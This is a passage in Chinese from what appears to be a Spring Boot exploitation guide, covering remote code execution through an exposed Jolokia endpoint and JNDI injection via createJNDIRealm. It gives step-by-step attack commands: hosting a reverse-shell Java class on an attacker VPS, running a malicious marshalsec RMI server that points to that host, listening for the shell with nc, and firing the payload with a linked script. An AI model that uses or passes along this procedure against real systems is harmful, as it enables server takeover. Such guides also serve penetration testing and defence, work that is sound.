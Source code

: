 - 目标网站存在 `/jolokia` 或 `/actuator/jolokia` 接口
- 目标使用了 `jolokia-core` 依赖（版本要求暂未知）并且环境中存在相关 MBean
- 目标可以请求攻击者的服务器（请求可出外网）
- JNDI 注入受目标 JDK 版本影响，jdk < 6u141/7u131/8u121（RMI 方式）



#### 利用方法：

##### 步骤一：查看已存在的 MBeans

访问 `/jolokia/list` 接口，查看是否存在 `type=MBeanFactory` 和 `createJNDIRealm` 关键词。



##### 步骤二：准备要执行的 Java 代码

编写优化过后的用来反弹 shell 的 [Java 示例代码](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/JNDIObject.java)  `JNDIObject.java`。



##### 步骤三：托管 class 文件

在自己控制的 vps 机器上开启一个简单 HTTP 服务器，端口尽量使用常见 HTTP 服务端口（80、443）

```bash
# 使用 python 快速开启 http server

python2 -m SimpleHTTPServer 80
python3 -m http.server 80
```

将**步骤二**中编译好的 class 文件拷贝到 HTTP 服务器根目录。



##### 步骤四：架设恶意 rmi 服务

下载 [marshalsec](https://github.com/mbechler/marshalsec) ，使用下面命令架设对应的 rmi 服务：

```bash
java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://your-vps-ip:80/#JNDIObject 1389
```



##### 步骤五：监听反弹 shell 的端口

一般使用 nc 监听端口，等待反弹 shell

```bash
nc -lvp 443
```



##### 步骤六：发送恶意 payload

根据实际情况修改 [springboot-realm-jndi-rce.py](https://raw.githubusercontent.com/LandGrey/SpringBootVulExploit/master/codebase/springboot-realm-jndi-rce.py) 脚本中的目标地址，RMI 地址、端口等信息，然后在自己控制的服务器上运行。

